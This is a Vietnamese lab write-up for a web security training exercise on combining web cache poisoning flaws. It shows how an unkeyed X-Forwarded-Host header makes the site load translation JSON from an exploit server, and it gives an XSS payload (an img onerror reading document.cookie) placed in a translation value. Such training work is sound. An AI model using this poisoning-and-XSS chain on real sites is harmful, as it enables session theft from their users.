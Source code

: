 ### Lab: Combining web cache poisoning vulnerabilities
#### Analysis
- Hoạt động tương tự lab trên nhưng khác ở **data** và cách xử lý chúng

```json
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "Ver detailes",
            "Description:": "Descripción:"
        }
    },
}
```
{:file="/resources/json/translations.json"}

```js
function initTranslations(jsonUrl)
{
    ...
    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }
    ...
    lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
}
```
{:file="/resources/js/translations.js"}

- Sử dụng **Param Miner** để quét **unkeyed header** => xác định được **X-Forwarded-Host**, **X-Original-Url** có ảnh hưởng
- Đặt `X-Forwarded-Host: attacker.exploit-server.net`, **server** sẽ tải **JSON** từ:

```
http://attacker.exploit-server.net/resources/json/translations.json
```
- Đối với các ngôn ngữ khác `en` => thì sẽ được **translate** bằng cách gán lại nội dung của `"View details": "Ver detailes"` bằng `el.innerHTML = dict[k];`
- Lợi dụng điều này để inject **XSS** vào thuộc tính của ngôn ngữ

```json
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "<img src=1 onerror=alert(document.cookie)>",
            "Description:": "Descripción:"
        }
    }
}
```